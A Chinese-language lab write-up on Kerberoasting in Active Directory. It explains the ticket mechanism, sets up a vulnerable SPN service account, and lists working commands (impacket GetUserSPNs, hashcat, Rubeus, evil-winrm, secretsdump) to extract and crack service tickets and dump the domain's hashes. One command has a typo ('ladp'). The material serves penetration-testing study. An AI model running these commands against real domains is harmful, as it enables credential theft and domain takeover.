








# Kerberoasting


## 0x 01 原理
### 1.1 Kerberos 服务票据流程

当用户访问域内服务（如 MSSQL、HTTP、CIFS）时，KDC 为这个服务签发一张 TGS：

alice → KDC:  "我要访问 MSSQLSvc/dc01.corp.local"  
KDC  → alice:  这是 TGS，使用 `svc_mssql` 的 NTLM Hash 进行加密 
alice → MSSQL: 出示 ST 
MSSQL: 用 svc_mssql 的 NTLM Hash 解密 ST → 确认 alice 身份 → 允许访问

### 1.2 漏洞前置条件
|     |      条件      |            为什么             |     对应靶场     |
| --- | :----------: | :------------------------: | :----------: |
| ①   | 存在带 SPN 的域账户 |       有 SPN 才能请求 ST        | svc_mssql用户  |
| ②   |  拥有任意域用户凭据   | TGS-REQ 需要出示 TGT，TGT 需要域认证 |   alice用户    |
| ③   |  攻击机能连到 KDC  |    跟 KDC 通信走 Kerberos协议    | Kali → DC01  |
| ④   | 服务账户密码可被离线爆破 |     弱密码 → 字典命中 → 拿到明文      | svc_mssql弱口令 |
### 1.3 漏洞位置
攻击者首先要获取一个域用户 alice，利用该用户向 KDC 发送 TGS-REQ，KDC 不检查 alice 是否有权限使用该服务，直接返回 ST 票据。ST 用服务账户的 NTLM Hash 加密，服务账户名在票中外层是明文的。 alice 收到 ST后无法直接解开，交给工具离线字典爆破，获取服务账户 svc_mssql 的密码。

## 0x 02 漏洞复现
### 2.1 靶场部署
在 DC01 上以域管理员执行：
```powershell
# 创建服务账户
net user svc_mssql S3rviceP@ss! /add /domain

# 注册 SPN（关键步骤——没有 SPN 就无法 Kerberoasting）
setspn -A MSSQLSvc/dc01.corp.local:1433 svc_mssql

# 确认 SPN 已注册
setspn -L svc_mssql
# 输出: MSSQLSvc/dc01.corp.local:1433
```

不使用命令行的话，也可以按照下面步骤将svc_mssql用户注册SPN:
1. **Win+R** → `dsa.msc` 打开 Active Directory 用户和计算机
    
2. 找到 `svc_mssql` → 右键 → 属性
    
3. 切换到 **属性编辑器** 选项卡（需先启用"高级功能"）
    
4. 找到 `servicePrincipalName` → 编辑 → 添加：
    
    MSSQLSvc/dc01.corp.local:1433
5. 确定
### 2.2 漏洞发现
在kali中使用`Impacket GetUserSPNs.py`工具枚举域内SPN账户，要求必须有域内账户：
```bash
impacket-GetUserSPNs corp.local/alice:P@ssw0rd1 -dc-ip 192.168.127.10
```
PowerView使用：
```
Get-DomainUser -SPN | Select samaccountname, serviceprincipalname
```
BloodHound
```
# SharpHound 采集后，Cypher 查询:
MATCH (u:User {hasspn:true}) RETURN u
```
### 2.3 攻击复现
1. GetUserSPNs
```
# 用 alice 的凭据请求所有 SPN 账户的 TGS
impacket-GetUserSPNs corp.local/alice:P@ssw0rd1 -dc-ip 192.168.127.10 -request

# 保存为 hashcat 格式
impacket-GetUserSPNs corp.local/alice:P@ssw0rd1 -dc-ip 192.168.127.10 -request -outputfile kerberoast.hash
```

再使用hashcat暴力破解：
```
# 模式 13100 = Kerberos 5 TGS-REP etype 23
hashcat -m 13100 kerberoast.hash /usr/share/wordlists/rockyou.txt --force
```
最后使用nxc验证密码是否正确:
```bash
nxc smb 192.168.127.10 -u svc_mssql -p 'S3rviceP@ss!'
```

甚至如果是管理员的话，还可以直接使用evil-winrm 进行登录：
```bash
evil-winrm -i 192.168.127.10 -u svc_mssql -p 'S3rviceP@ss!'
```
2. Rubeus
在 WIN10-PC 以 `CORP\alice` 登录后：
```
# 枚举 + 请求所有 SPN 票据
.\Rubeus.exe kerberoast

# 输出 hashcat 格式
.\Rubeus.exe kerberoast /format:hashcat /outfile:kerberoast.hash
```


## 0x 03 进一步利用
如果 svc_mssql 恰好是 Domain Admins 成员：
```
impacket-secretsdump corp.local/svc_mssql:'S3rviceP@ss!'@192.168.127.10
# → 直接 dump 全域哈希 → 域沦陷
```
使用nxc可以判断svc_mssql用户是否是Domain Admins 成员：
```
nxc ladp 192.168.127.10 -u alice -p P@ssw0rd1 --groups "Domain Admins"
```

从上图可以判断出只有`Administrator`一个用户在Domain Admins组内。


如果服务账户哈希无法破解（强密码），但能导出来（通过 DCSync 等其他漏洞）， 可以用 NTLM Hash 制作该服务的 Silver Ticket。